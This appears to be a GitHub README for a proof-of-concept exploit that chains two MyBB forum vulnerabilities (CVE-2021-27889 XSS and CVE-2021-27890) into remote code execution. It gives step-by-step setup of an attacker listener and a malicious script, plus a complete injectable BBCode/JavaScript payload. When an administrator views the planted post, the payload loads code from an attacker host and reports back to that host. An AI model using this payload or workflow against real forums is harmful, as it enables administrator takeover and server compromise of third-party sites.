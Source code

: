 # Mybb-XSS_SQL_RCE-POC
Mybb associate CVE-2021-27890 &amp; CVE-2021-27889 to RCE poc
</br>

**Before Use:**

There are two files here:  1.js and attack_listen.py

You should modify these two file:

**1.js:**

modify the mybb forum url and attack url:

```js
var bashurl = 'http://192.168.92.164/mybb/mybb-mybb_1825' #mybb forum url
var attack_url = 'http://192.168.92.165:8080/attack_success' #change the attack machine ip.should keep the same with the attack_listen.py
```
</br>

**attack_listen.py**

modify the attack host and attack port:

```python
attack_host = '192.168.92.165'
attack_port = 8080
```

</br>

**Usage:**

CVE-2021-27889 is xss. You should inject the following payload in "**New Post Thread**" or "**Reply**" or "**Private Messages**".In this demo,I send the payload to "New Post Thread"

*notice that the **192.168.92.165** is the evil server ip,You should change it.*

```html
[img]http://evil.com/xx(http://evil.com/onerror=xs1=String.fromCharCode(47);xa1=document.createElement(/script/.source);xa1.src=xs1+xs1+/192.168.92.165/.source+xs1+/1.js/.source;document.getElementById(/header/.source).append(xa1);//[/img]
```

![](./img/1.png)

</br>

Now Our evil js **1.js** is injected successful.Then we should wait an Admin browsed this Post with loggined admin page.

*Notice that the Admin user have no necessary loggin the forum page.*

</br>

In our waiting time,We should run the "attack_listen.py" in our attack machine, To identify if the Admin user be attacked.

```shell
python3 attack_listen.py
```

</br>

When the Admin user browsed the evil post,the evil js will do the attack:

![](./img/2.png)

</br>

We can recive the information at our attack machine:

![](./img/3.png)



![](./img/4.png)